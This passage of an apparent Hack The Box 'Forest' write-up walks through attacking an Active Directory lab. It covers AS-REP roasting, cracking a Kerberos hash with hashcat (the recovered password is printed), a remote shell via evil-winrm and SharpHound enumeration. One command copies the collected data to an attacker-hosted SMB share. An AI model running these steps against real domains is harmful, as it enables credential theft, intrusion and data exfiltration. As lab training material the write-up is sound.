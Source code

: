 ```bash
Domain Password Complex: 0
Minimum password age: 1 day 4 minutes
Reset Account Lockout Counter: 30 minutes
Locked Account Duration: 30 minutes
Account Lockout Threshold: None
Forced Log off Time: Not Set
```

Let's use `impacket` tools to check for AS-REP Roasting. 
> Users that does not require Kerberos Pre-Authentication.
![](/images/forest/getNP.png)

Format it for hashcat with crack it.
```bash
> hashcat -m 18200 hash.txt rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8ccb40975d4a40d9363ed4171bb5ccae$004bd89de5498ec52e3537dd97d4f8ce7a0712cb2a6ea8c35783da1e27e3dbecad9f586d4312cfaea7de3ce8844b787d9a7e2cbe972b6d1d83e0c6506fb144e6fd4100ae7363d2922bac4516922b1a547cfce22ab9d7279687eceb2e11c19e10e82561c3a842775c07212e152edc4436e4f1551aa19fa35cc9b8a128d362d77fe20b786645cf3d7aea414cfaf4f1412c0e45957c13948a0a26449241ffaf015e77385dbe1a2a158b61e6b09c7cef276272bbb3f9e269dfb126313fb4803811693aa0304e8d696e3b6113023fdf9985619409a9ba26478f82c7d82292ee27e3e84ede1069178c:s3rvice
```

Enumerating all ports in nmap; port 5985 which is winrm is open.
Connect to the port using `evil-winrm`.
```bash
> evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

Next we upload `SharpHound.exe` and enumerate the DC server.
```bash
evil-winrm > upload SharpHound.exe SharpHound.exe
evil-winrm > .\SharpHound.exe -c all
```

Start a smb server on your host.
```bash
> sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py host .
```

Copy to smbserver.
```bash
evil-winrm > copy 2024_BloodHound.zip \\yourip\host\
```

Open the file inside bloodhound, and search for `svc-alfresco` our owned user.
![](/images/forest/svc-alfresco.png)

Right click on the user and mark the user as owned.
![](/images/forest/owned-svc-alfresco.png)

Go to analysis tab and select shortest path from owned principals to see our escalation path.
![](/images/forest/show_paths.png)

Graph showing memberships of groups.
![](/images/forest/graph.png)
We can see that `svc-alfresco` is a member of `Service Accounts` which is a member of `Privilege IT Accounts`, which is a member of `Account Operators` .
Account operators have `generic all` permissions on `exchange` and which inturn have `DACL` on the domain.
Mid-way through the I have change my bloodhound to the newer update community edition. The picture below shows our attack path to escalate our privilege on the domain.
